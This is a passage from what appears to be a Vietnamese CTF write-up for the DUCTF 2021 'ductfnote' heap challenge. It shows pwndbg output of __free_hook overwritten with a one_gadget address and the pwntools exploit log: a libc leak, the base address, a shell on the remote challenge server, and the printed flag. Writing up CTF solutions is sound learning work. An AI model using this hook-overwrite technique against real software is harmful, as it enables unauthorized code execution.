                 ```python
                pwndbg> x/2xg 0x7ffff7fb5b20
                0x7ffff7fb5b20 <__after_morecore_hook>: 0x6161616100000300      0x00007ffff7eadc81
                pwndbg> x/xg &__free_hook
                0x7ffff7fb5b28 <__free_hook>:   0x00007ffff7eadc81
                ```
                
            - Cuối cùng ta chỉ cần free() là lên được shell.
            
            ```python
            [+] Opening connection to pwn-2021.duc.tf on port 31917: Done
            [*] '/mnt/c/Users/ADMIN/Desktop/underCTF/note/ductfnote'
                Arch:     amd64-64-little
                RELRO:    Full RELRO
                Stack:    No canary found
                NX:       NX enabled
                PIE:      PIE enabled
            [*] '/mnt/c/Users/ADMIN/Desktop/underCTF/note/libc-2.31.so'
                Arch:     amd64-64-little
                RELRO:    Partial RELRO
                Stack:    Canary found
                NX:       NX enabled
                PIE:      PIE enabled
            [*] leak: 0x7fd4e29eebe0
            [*] Base: 0x7fd4e2803000
            [*] One_gadget: 0x7fd4e28e9c81
            [*] Switching to interactive mode
            
            $ cat flag.txt
            DUCTF{n0w_you_4r3_r34dy_f0r_r34l_m$_0d4y}
            $
            ```
